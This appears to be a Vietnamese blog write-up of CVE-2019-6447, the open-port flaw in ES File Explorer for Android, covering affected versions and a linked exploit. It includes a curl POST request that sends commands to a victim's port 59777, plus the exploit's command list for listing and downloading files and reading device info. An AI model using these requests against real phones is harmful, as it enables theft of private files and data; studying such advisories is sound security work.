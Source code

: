```yaml
---
title: CVE-2019-6447
date: 29/06/2021
layout: single
header:
  teaser: /assets/images/10.PNG
--- 
```

![](/assets/images/10.PNG)

## Mô Tả 
Lỗ hổng mở cổng của ES File Explorer - CVE-2019-6447

ES File Explorer (Trình quản lý tệp) là một trình quản lý tệp (Hình ảnh, Nhạc, Phim, Tài liệu, ứng dụng) đầy đủ tính năng cho cả việc sử dụng cục bộ và mạng! Với hơn 500 triệu người dùng trên toàn thế giới, ES File Explorer (Trình quản lý tệp) giúp quản lý điện thoại Android và các tệp của bạn một cách hiệu quả và hiệu quả, đồng thời chia sẻ tệp mà không tốn dữ liệu.
 
Mỗi khi người dùng khởi chạy ứng dụng, máy chủ HTTP sẽ được khởi động. Máy chủ này đang mở cục bộ cổng 59777

```shell 
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop

```
Trên cổng này, kẻ tấn công có thể gửi tải trọng JSON đến mục tiêu
```shell
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.108:59777

```
Các lệnh này cho phép kẻ tấn công kết nối trên cùng một mạng cục bộ với nạn nhân, có được nhiều thông tin hấp dẫn (thông tin thiết bị, ứng dụng đã cài đặt, ...) về điện thoại của nạn nhân, lấy từ xa một tệp từ điện thoại của nạn nhân và khởi chạy từ xa ứng dụng trên điện thoại của nạn nhân.

## Các phiên bản bị ảnh hưởng
4.1.9.7.4 trở xuống

## Tính năng công cụ 
+ listFiles: Liệt kê tất cả các Tệp.
+ listPics: Liệt kê tất cả các Ảnh.
+ listVideos: Liệt kê tất cả các video.
+ listAudios: Liệt kê tất cả các âm thanh.
+ listApps: Liệt kê các ứng dụng đã cài đặt.
+ listAppsSystem: Liệt kê các ứng dụng Hệ thống.
+ listAppsPhone: Liệt kê các ứng dụng liên quan đến Giao tiếp.
+ listAppsSdcard: Liệt kê các ứng dụng trên thẻ SDCard.
+ listAppsAll: Liệt kê tất cả Ứng dụng.
+ getFile: Tải xuống tệp.
+ getDeviceInfo: Nhận thông tin thiết bị.

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

Mã khai thác của tác giả Nehal Zaman [CVE-2019-6447](https://www.exploit-db.com/exploits/50070)


```shell
C:\Users\Administrator\Documents\python>python 15.py cmd ip 

Available commands :
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.

```

## Cảm ơn :D
